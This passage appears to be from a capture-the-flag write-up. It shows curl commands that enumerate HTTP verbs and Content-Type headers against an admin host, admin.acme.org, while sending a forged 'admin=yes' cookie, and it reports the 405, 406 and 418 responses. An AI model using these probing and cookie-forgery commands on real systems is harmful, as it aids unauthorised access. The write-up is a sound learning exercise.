 ```bash
$ verbs=(GET POST OPTIONS PUT DELETE HEAD)

$ for f in ${verbs[@]}; do curl http://admin.acme.org -b 'admin=yes' -X $f -v 2>&1 | grep "HTTP/1.1"; done
> GET / HTTP/1.1
< HTTP/1.1 405 Method Not Allowed
> POST / HTTP/1.1
< HTTP/1.1 406 Not Acceptable
> OPTIONS / HTTP/1.1
< HTTP/1.1 405 Method Not Allowed
> PUT / HTTP/1.1
< HTTP/1.1 405 Method Not Allowed
> DELETE / HTTP/1.1
< HTTP/1.1 405 Method Not Allowed
> HEAD / HTTP/1.1
< HTTP/1.1 405 Method Not Allowed
```

As we can see, sending a `POST` request triggers another new response!

> HTTP/1.1 406 Not Acceptable

## :four::zero::six: Not Acceptable

406 Not Acceptable is one of those HTTP responses that I'm not too familiar with.
From what I understand, our POST request doesn't match what the webserver wants.

Following the article found [here](http://www.checkupdown.com/status/E406.html),
I played around for hours, trying to figure out which combination of `Accept*` headers
will allow me to move on to the next step.

Then I realised, there's a reason why we're doing a POST request...
The webserver is most likely waiting for some kind of body.
Thus, since we don't know how to encode the body, I shouldn't be looking at
the `Accept*` headers, but rather the `Content-Type` header!

Let's try a couple of common content-types :

```bash
$ curl http://admin.acme.org -X POST -b 'admin=yes' -H 'Content-Type: application/x-www-form-urlencoded' 2>&1 -v | grep HTTP/1.1
> POST / HTTP/1.1
< HTTP/1.1 406 Not Acceptable

$ curl http://admin.acme.org -X POST -b 'admin=yes' -H 'Content-Type: application/json' 2>&1 -v | grep HTTP/1.1
> POST / HTTP/1.1
< HTTP/1.1 418 I'm a teapot

$ curl http://admin.acme.org -X POST -b 'admin=yes' -H 'Content-Type: application/json'
{"error":{"body":"unable to decode"}}
```

So we have to deal with **JSON** now! :tada: We're getting somewhere!!! :blush:
